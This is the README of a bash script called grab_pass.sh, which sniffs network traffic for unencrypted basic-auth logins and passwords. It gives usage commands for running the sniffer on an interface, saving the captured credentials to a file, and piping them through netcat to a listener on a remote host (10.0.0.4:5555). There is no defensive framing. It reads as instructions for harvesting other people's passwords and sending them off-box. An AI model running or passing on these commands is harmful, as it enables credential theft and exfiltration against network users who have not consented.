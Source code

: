 # grab_pass.sh

This is a simple script that sniffs for unencrypted basic auth logins/passwords.  The only option is the ethernet device.  Example with eth0:

`bash grab_pass.sh eth0`

Now just sit back and wait.  

If you want to keep those passwords, you can always tee it to a file:

`bash grab_pass.sh eth0 | tee logins.txt`

Or you could always setup netcat to listen on a server somewhere, then pipe the results to netcat.  For example, if you had a listener on 10.0.0.4 running on port 5555, you could just run this:

`bash grab_pass.sh eth0 | nc 10.0.0.4 5555`
